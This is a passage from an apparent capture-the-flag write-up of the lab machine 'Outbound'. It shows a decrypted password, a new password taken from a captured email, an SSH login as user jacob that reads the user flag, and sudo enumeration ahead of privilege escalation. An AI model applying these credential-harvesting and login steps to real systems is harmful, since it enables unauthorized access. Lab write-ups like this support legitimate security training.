     jacob_3des: 2fb46fd3403c4eec0902bebb9084f1c5c4a09c8936e409bf
    triple_des_key: 72636d61696c2d213234427974654445536b65792a537472
    Jacob's password:  b'595mO8DmwGeD'


This isn't quite Jacob's SSH password. But logging into the email portal we can see an email:

```log
Important Update 
From tyler@outbound.htb on 2025-06-07 07:00
Due to the recent change of policies your password has been changed.

Please use the following credentials to log into your account: gY4Wr3a1evp4

Remember to change your password when you next log into your account.

Thanks!

Tyler
```

We also have a clue as to our next goal:

```log
Unexpected Resource Consumption
From mel@outbound.htb on 2025-06-08 05:09
We have been experiencing high resource consumption on our main server.
For now we have enabled resource monitoring with Below and have granted you privileges to inspect the the logs.
Please inform us immediately if you notice any irregularities.

Thanks!

Mel
```

## Foothold


```python
jacob_outbound = ssh("outbound.htb", 22, "jacob", "gY4Wr3a1evp4")

print(jacob_outbound.exec("whoami; cat user.txt"))
```

    jacob
    2903ea9b341bfb40934bd39670eb87d2


We're given the hint that we were provided elevated privileges, so lets see what we can sudo.


```python
print(jacob_outbound.exec("sudo -l"))
```

    Matching Defaults entries for jacob on outbound:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
    